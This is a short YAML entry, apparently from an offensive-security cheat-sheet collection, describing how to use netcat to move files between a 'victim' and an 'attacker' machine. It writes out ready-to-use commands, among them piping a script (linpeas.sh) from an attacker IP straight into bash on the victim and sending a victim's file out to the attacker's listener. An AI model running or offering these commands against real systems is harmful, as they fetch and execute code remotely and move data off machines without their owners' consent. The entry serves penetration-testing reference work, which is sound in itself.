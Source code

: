 ```yaml
---
description: |
  La commande Netcat (nc) est un utilitaire de ligne de commande permettant de lire et d'écrire des données entre deux réseaux informatiques. Elle peut être utilisée pour transférer des fichiers entre la victime et l'attaquant.

  Command Reference:

  	File to copy: linpeas.sh

  	Port: 9001

  	IP address: 10.10.21.14

command: |
  nc -lvnp 9001 < linpeas.sh

code: |
  Copy from attacker to victim:  
  nc -lvnp 9001 < linpeas.sh (attacker) 
    
  nc 10.10.21.14 9001 | bash (victim)

  Copy from victim to attacker: 
  nc 10.10.21.14 9001 < file.txt (victim)
    
  nc -lvnp 9001 > file.txt (attacker)

items:
  - Shell
services:

OS:
  - Windows
  - Linux
  - Approved-tool
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```

